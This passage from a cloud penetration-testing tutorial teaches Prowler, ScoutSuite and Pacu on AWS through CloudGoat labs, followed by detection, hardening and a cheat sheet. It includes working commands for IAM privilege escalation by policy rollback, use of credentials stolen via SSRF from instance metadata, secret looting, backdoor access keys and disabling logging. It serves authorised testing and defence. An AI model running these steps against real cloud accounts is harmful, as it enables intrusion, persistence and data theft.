scout aws --profile cg-lowpriv --services iam --no-browser --report-dir ./cg-scout/
```

ScoutSuite's IAM view shows `policy_manager` with a customer-managed policy carrying **multiple versions** — the visual cue that a rollback path exists. It corroborates Prowler. (In a real engagement this cross-confirmation is gold; here it teaches you to read the same weakness two ways.)



### Step 3 — Pacu for the exploit (read AND write)

```text
$ pacu
> new session: cg-rollback
Pacu (cg-rollback:No Keys Set) > import_keys cg-lowpriv
Imported keys as "imported-cg-lowpriv"

Pacu (cg-rollback:policy_manager) > run iam__enum_permissions
[+] Confirmed: iam:GetPolicy, iam:GetPolicyVersion, iam:ListPolicyVersions,
    iam:SetDefaultPolicyVersion, ...

Pacu (cg-rollback:policy_manager) > run iam__privesc_scan
[+] CONFIRMED: SetExistingDefaultPolicyVersion

Pacu (cg-rollback:policy_manager) > run iam__privesc_scan --exploit
[+] Rolling policy_manager_policy back to v1 (grants iam:*, s3:*)
[+] SUCCESS — escalated.

Pacu (cg-rollback:policy_manager) > run iam__enum_permissions
[+] Confirmed permissions now include: iam:*, s3:*, sts:*
```

### Step 4 — demonstrate impact and loot

With admin, prove it means something — enumerate and exfil a secret (still inside your own CloudGoat account):

```text
Pacu (cg-rollback:policy_manager) > run iam__enum_users_roles_policies_groups
[+] Enumerated 4 users, 6 roles, full account IAM captured.

Pacu (cg-rollback:policy_manager) > run s3__bucket_finder
[+] Found buckets: cg-secret-bucket-xxxx

Pacu (cg-rollback:policy_manager) > run s3__download_bucket
[+] Downloaded cg-secret-bucket-xxxx/flag.txt -> ./sessions/cg-rollback/downloads/
```

```bash
cat ~/.local/share/pacu/sessions/cg-rollback/downloads/cg-secret-bucket-xxxx/flag.txt
# cloudgoat{privilege-escalation-via-policy-rollback}
```

### Step 5 — tear down

```bash
cd cloudgoat && ./cloudgoat.py destroy iam_privesc_by_rollback
```

That is the whole engagement in miniature: **scanners found the weak policy; Pacu proved it was exploitable to admin and to data.** The report writes itself — finding (restorable privileged policy version), evidence (the Pacu transcript + the retrieved flag), remediation (delete old policy versions, deny `iam:SetDefaultPolicyVersion`, add a permission boundary).

---

## Part 8: A Second Angle — SSRF, IMDS, and Tooling the Data Plane

Not every engagement starts with a key. The `ec2_ssrf` CloudGoat scenario starts with an SSRF in a web app and asks you to reach data. This shows where the tools fit when the entry is on the *data plane*, not a leaked credential.

The chain (covered mechanically in Chapter 2) is: SSRF → hit `http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>` → steal temporary role creds → configure them → enumerate → reach the secret. Here is how tooling accelerates the back half once you hold the stolen STS creds:

```bash
# You extracted temporary creds via SSRF against IMDSv1:
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...

# Prowler with the stolen role — see what the role can reach:
prowler aws --services s3 lambda secretsmanager -q

# ScoutSuite to inventory what this role can see:
scout aws --services s3 lambda --no-browser

# Pacu to loot secrets the role can read:
pacu
> set_keys   (paste the ASIA... temp creds + session token)
> run secrets__enum
> run s3__download_bucket
```



**IMDSv2 note (defensive foreshadow):** this whole chain assumes IMDSv1's simple `GET`. IMDSv2 requires a `PUT` to obtain a session token first, which a basic SSRF usually cannot perform — enforcing IMDSv2 (`HttpTokens=required`) is the single highest-leverage fix and is exactly what Prowler's `ec2_imdsv2_enabled` check flags. The tools both *find* the weakness and, in Pacu's case, *exploit* it — the same duality as Part 7.

---

## Part 9: Fitting the Three Into a Real Engagement

Tools are only useful inside a method. Here is the workflow a cloud pentest actually follows and where each tool plugs in.



1. **Scoping & authorisation.** Written RoE, target accounts, allowed regions, provider pentest policy, a "do not touch" list, and an agreement on whether *write* actions (Pacu) are in scope. Get the write-scope answer in writing — it is the difference between an audit and a pentest.
2. **Access.** The client provisions read-only creds for the scanners and, if exploitation is in scope, a starting low-priv credential (or an agreed initial-access scenario) for Pacu.
3. **Posture sweep (breadth).** Run **Prowler** (`--compliance cis_2.0_aws`, all services, critical/high) and **ScoutSuite** (full account) read-only. One hour, whole-account map.
4. **Triage.** Collapse by root cause, drop intentional exposures, and rank findings by *exploitability* — which ones chain into real impact.
5. **Exploit (depth).** Take the top exploitable findings into **Pacu** (or the raw CLI): confirm permissions, run `iam__privesc_scan`, assume roles, loot secrets, demonstrate lateral movement — always the minimum needed to *prove* impact, never gratuitous destruction.
6. **Evidence.** Capture Pacu transcripts, retrieved (non-sensitive placeholder) data, screenshots, and the exact API calls, so each claim in the report is reproducible.
7. **Report.** Each finding = weakness + evidence + business impact + remediation, cross-referenced to the CIS/PCI control Prowler mapped it to.
8. **Cleanup.** Destroy anything Pacu created (backdoor keys, test roles, launched instances), remove CloudGoat, and hand the client a list of every write action you took so they can verify the account is clean.

**Opsec for the assessor:** even authorised testing should minimise noise and blast radius. Prefer read-only recon first; scope Pacu write modules tightly; never run `detection__disruption` (which tries to *disable* CloudTrail/GuardDuty) on a real client without explicit, separate approval — disabling a client's logging, even to demonstrate you can, is a serious action that belongs in a controlled exercise, not a default step.

---

## Part 10: Detection & Defense Angle

Everything above is what the attacker (or authorised assessor) does. This section flips to the defender: how each of these tools *looks* from inside the account, and how to detect and blunt them. This is the one consolidated defensive section (per the reference-chapter style).

### Detecting the scanners (Prowler & ScoutSuite)

Both scanners are **read-only** and generate a characteristic burst of `Describe*`, `List*`, and `Get*` calls across dozens of services in a short window from a single identity. That pattern is the signature.

- **CloudTrail:** look for a single principal issuing hundreds of `List*`/`Describe*`/`Get*` calls across many services within minutes. Normal automation is usually scoped to a few services; a broad sweep of *everything* is a scanner (or an attacker enumerating).
- **User-Agent:** Prowler and ScoutSuite send identifiable SDK user-agents (`Boto3/… Botocore/…`, sometimes with tool markers). A detection on `userIdentity` + unusual `userAgent` + breadth catches naive runs. (Sophisticated operators can spoof this, so don't rely on it alone.)
- **GuardDuty:** a full enumeration can trip `Recon:IAMUser/*` findings (e.g. `Recon:IAMUser/ResourcePermissions`, `Recon:IAMUser/UserPermissions`) — GuardDuty specifically models "an identity is probing what it can do."

Detecting a read-only auditor is genuinely hard because the calls are, individually, legitimate — the *breadth and burst* are the tell. Focus the alert on volume + variety from one principal in a short window.

### Detecting Pacu (the write tool)

Pacu is louder because it *changes state* and probes permissions aggressively:

- `iam__enum_permissions` brute-forces permissions, producing a flurry of calls (many resulting in `AccessDenied`) — a spike in `errorCode: AccessDenied` for a single principal is a strong signal, and maps to GuardDuty `Recon:IAMUser/UserPermissions`.
- `iam__privesc_scan --exploit` performs write actions: `SetDefaultPolicyVersion`, `CreatePolicyVersion`, `AttachUserPolicy`, `CreateAccessKey`, `PassRole`+`RunInstances`. Alert on any of these IAM *mutations* — they are rare in steady-state and high-value.
- `iam__backdoor_users_keys` calls `CreateAccessKey` on an existing user — a classic persistence signature; alert on `CreateAccessKey` where the caller ≠ the target user.
- Older Pacu versions carried a distinctive default user-agent; current versions can be configured, so treat user-agent as a weak, supplementary signal.

| Tool | Loudest signal | CloudTrail event(s) | GuardDuty finding |
|------|----------------|---------------------|-------------------|
| Prowler / ScoutSuite | Broad read burst from one principal | `List*`, `Describe*`, `Get*` across many services | `Recon:IAMUser/ResourcePermissions` |
| Pacu enum | Spike in `AccessDenied` | many failed `iam:*`, `ec2:*` reads | `Recon:IAMUser/UserPermissions` |
| Pacu privesc | IAM mutation | `SetDefaultPolicyVersion`, `CreatePolicyVersion`, `AttachUserPolicy` | `PrivilegeEscalation:IAMUser/*` (via detectors) |
| Pacu persist | New credential on a user | `CreateAccessKey`, `CreateUser`, `CreateLoginProfile` | `Persistence:IAMUser/*` |
| Pacu evade | Logging disabled | `StopLogging`, `DeleteTrail`, `UpdateDetector` | `Stealth:IAMUser/CloudTrailLoggingDisabled` |

### Hardening — deny the primitives the tools rely on

The defence is not "block the tool," it is "remove the misconfiguration the tool exploits":

- **Least privilege + permission boundaries** so a compromised low-priv key *has* no privesc path for `iam__privesc_scan` to find. Delete old privileged policy versions (kills the rollback path).
- **Deny the dangerous IAM verbs** for non-admins via SCP: `iam:SetDefaultPolicyVersion`, `iam:CreatePolicyVersion`, `iam:AttachUserPolicy`, `iam:PutUserPolicy`, `iam:CreateAccessKey` on other users, `iam:PassRole` scoped tightly.
- **Enforce IMDSv2** (`HttpTokens=required`) fleet-wide to kill the SSRF→creds chain Pacu leans on.
- **Turn on and protect logging:** multi-region CloudTrail with log-file validation, an organisation trail the member account cannot disable, GuardDuty enabled in every region, AWS Config recording. An org-level trail is what defeats `detection__disruption`.
- **Alert on the mutations in the table above** via EventBridge → SNS/SOAR. IAM writes and `CreateAccessKey` are rare enough that alerting on all of them is affordable.
- **Run Prowler/ScoutSuite yourself, continuously.** The best defence against an assessor's scanner is to have run the same scanner last week and already fixed everything it finds. Prowler in CI against every account, gated on critical/high, closes the gap the attacker would exploit.

The through-line: the scanners the attacker uses against you are the *same* scanners you should run against yourself. Owning the tooling is defensive as much as offensive.

---

## Part 11: Common Pitfalls

- **Running Pacu write modules on production without written write-scope.** The single biggest mistake. `iam__privesc_scan --exploit` *changes IAM*; `detection__disruption` *disables logging*. If your RoE didn't explicitly authorise write actions, stay in enumerate-only mode.
- **Forgetting to destroy CloudGoat / Pacu artefacts.** Left-behind vulnerable infra and backdoor access keys are real liabilities. `cloudgoat destroy` and revoke every key Pacu created.
- **Trusting scanner severity blindly.** A "public bucket" HIGH may be an intentional static site. Triage for intent before it goes in the report.
- **Running scanners with too-broad credentials.** Give Prowler/ScoutSuite `SecurityAudit`/`ReadOnlyAccess`, not admin. A read-only auditor with admin keys is an unnecessary risk if your laptop is compromised mid-engagement.
- **Ignoring regions.** Default scans hit all regions and can be slow/expensive; but *restricting* regions can miss resources an attacker parked in `ap-south-1`. Scope deliberately, and at least once scan *all* regions for shadow resources.
- **Confusing "found" with "exploitable."** Prowler finds `iam:*` on a role; that is not proof until Pacu (or the CLI) actually uses it. Reports that claim impact without proof get torn apart in read-outs.
- **Pacu session hygiene.** One session per engagement. Mixing two clients' loot in one session DB is a data-handling incident waiting to happen.
- **Leaking client data in loot.** `s3__download_bucket` pulls real data to your disk. Handle, store, and destroy it per the engagement's data-handling rules — do not screenshot real PII into a report.

---

## Part 12: Final Revision / Summary

- **Two motions, three tools.** Breadth/posture = **Prowler** (checks + compliance mapping) and **ScoutSuite** (inventory dashboard), both **read-only**. Depth/exploit = **Pacu**, which **writes**.
- **Order:** scanners first for a ranked map in an hour, then Pacu to *prove* the exploitable findings. Breadth finds the unlocked door; depth walks through it.
- **Prowler** = CLI, hundreds of checks, `--compliance cis_2.0_aws`/`pci`/`hipaa`/`nist`, `--services`, `--severity`, `--output-formats`, multi-cloud (`prowler aws|azure|gcp|kubernetes`). Output: CSV/JSON/HTML + per-control compliance reports.
- **ScoutSuite** = offline HTML dashboard, resource-centric, rule-set engine you can tune, great for *understanding* an unfamiliar account. `scout aws --profile … --services … --report-dir …`.
- **Pacu** = sessions + modules. Loop: `import_keys` → `whoami` → `iam__enum_permissions` → `iam__privesc_scan [--exploit]` → lateral (`sts__assume_role`) → loot (`secrets__enum`, `s3__download_bucket`) → persist (`iam__backdoor_users_keys`). Session DB stores loot for reuse.
- **iam__privesc_scan** is the flagship: checks ~20 known AWS privesc methods against the credential's real permissions and can auto-exploit.
- **Detection:** scanners = broad read burst + GuardDuty `Recon:*`; Pacu = `AccessDenied` spike (enum), IAM mutations + `CreateAccessKey` (privesc/persist), `StopLogging`/`DeleteTrail` (evade). **Hardening:** least privilege + permission boundaries, deny the dangerous IAM verbs via SCP, enforce IMDSv2, org-level CloudTrail + GuardDuty everywhere, alert on IAM writes, and run the scanners against yourself continuously.
- **Ethics:** authorised, scoped, write-scope-in-writing, practise on CloudGoat/flAWS, destroy your artefacts, handle client data carefully.

---

## Part 13: Cheat Sheet / Quick Reference

**Prowler**

```bash
prowler aws                                   # full account, all checks
prowler aws --profile P -q                    # only failing checks
prowler aws --services s3 iam ec2             # scope to services
prowler aws --severity critical high          # scope to severity
prowler aws --compliance cis_2.0_aws          # report against CIS 2.0
prowler aws --list-compliance                 # list frameworks
prowler aws --list-checks                     # list all checks
prowler aws --region us-east-1 eu-west-1      # limit regions
prowler aws --output-formats csv json html -o ./out/
prowler azure --az-cli-auth                   # Azure
prowler gcp                                    # GCP (app-default creds)
prowler kubernetes --kubeconfig-file ~/.kube/config
```

**ScoutSuite**

```bash
scout aws --profile P                          # full scan, opens HTML
scout aws --profile P --regions us-east-1,eu-west-1
scout aws --services iam s3 --no-browser --report-dir ./scout/
scout azure --cli                              # Azure via az login
scout gcp --user-account                       # GCP
scout aws --ruleset ./custom.json              # custom ruleset
```

**Pacu**

```text
pacu                              # launch; create/select a session
set_keys / import_keys PROFILE    # add a credential
whoami                            # current identity + captured data
ls / search TERM / help MODULE    # browse modules
run iam__enum_permissions         # confirm this key's permissions
run iam__enum_users_roles_policies_groups
run iam__privesc_scan             # find privesc paths
run iam__privesc_scan --exploit   # auto-exploit them
run ec2__enum / run ec2__download_userdata
run secrets__enum                 # loot Secrets Manager + SSM
run s3__bucket_finder / run s3__download_bucket
run sts__assume_role              # lateral movement
run iam__backdoor_users_keys      # persistence (create 2nd key)
run detection__enum_services      # am I being watched?
```

**CloudGoat**

```bash
./cloudgoat.py config profile
./cloudgoat.py create SCENARIO          # e.g. iam_privesc_by_rollback, ec2_ssrf
./cloudgoat.py destroy SCENARIO         # ALWAYS tear down
./cloudgoat.py destroy all
```

**Defender quick hits**

```text
Enforce IMDSv2:  aws ec2 modify-instance-metadata-options \
                   --instance-id i-xxx --http-tokens required --http-endpoint enabled
Org CloudTrail:  aws cloudtrail create-trail --is-multi-region-trail --is-organization-trail
GuardDuty on:    aws guardduty create-detector --enable
Alert on:        SetDefaultPolicyVersion, CreatePolicyVersion, AttachUserPolicy,
                 CreateAccessKey, StopLogging, DeleteTrail
Self-scan:       prowler aws --compliance cis_2.0_aws  (in CI, gate on critical/high)
```

---

## Part 14: Practice Labs & Resources

Train these exact tools on purpose-built targets — do not practise on anything you don't own.

- **CloudGoat** (Rhino Security Labs) — deploy `iam_privesc_by_rollback` (the Part 7 lab), `ec2_ssrf` (the Part 8 chain), `iam_privesc_by_key_rotation`, `cloud_breach_s3`, and `lambda_privesc`. These are the canonical Pacu/CLI privesc ranges. Run Prowler and ScoutSuite against each *before* exploiting to see the finding first.
- **flAWS.cloud** and **flAWS2.cloud** (Scott Piper) — hosted, no deploy. flAWS2 has both an attacker and a defender track; the defender track is the best free way to practise reading CloudTrail for exactly the signals in Part 10.
- **AWSGoat** (INE/ine-labs) — a vulnerable web app on AWS; good for practising the SSRF→IMDS→loot chain end to end with real tooling.
- **CloudFoxable** — a deliberately vulnerable AWS environment built to practise cloud enumeration tooling; pairs well with Pacu's enum modules.
- **PentesterLab / HackTheBox cloud tracks** and **TryHackMe** "AWS" and "Cloud" rooms — guided intros to Pacu and cloud misconfig exploitation.
- **CIS AWS Foundations Benchmark PDF** — read it once so you understand what Prowler's `--compliance cis_2.0_aws` is actually checking, control by control.
- **Rhino Security Labs blog** — the original write-ups behind `iam__privesc_scan`'s ~20 AWS privilege-escalation methods; read them to understand *why* each Pacu module works, not just how to run it.
- **Prowler and ScoutSuite GitHub docs** — the authoritative flag references; skim the `--list-checks` / ruleset docs to learn what each tool can and cannot see.

Practice questions:

1. You have read-only creds on a new account and 30 minutes before a call. Which tool do you run first and with exactly which flags to hand the client a prioritised, CIS-mapped list? Write the command.
2. `iam__privesc_scan` reports `CONFIRMED: CreateNewPolicyVersion`. Explain the exact IAM primitive being abused and the CloudTrail event a defender would alert on to catch the `--exploit` step.
3. Prowler flags 34 instances of "security group open to 0.0.0.0/0". How do you present this as *one* finding with *one* remediation rather than 34 rows, and what preventive control stops it recurring?
4. You stole temporary role credentials via SSRF (IMDSv1). Which single defender-side change would have broken this chain, and which Prowler check verifies it is in place?
5. Design the CloudTrail/GuardDuty detection you'd deploy to catch a Pacu operator moving from `iam__enum_permissions` through `iam__privesc_scan --exploit` to `iam__backdoor_users_keys` — name the specific events/findings at each stage.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/cloud-security/03-cloud-pentest-tooling-pacu-scoutsuite-and-prowler), with comments and the latest edits.*
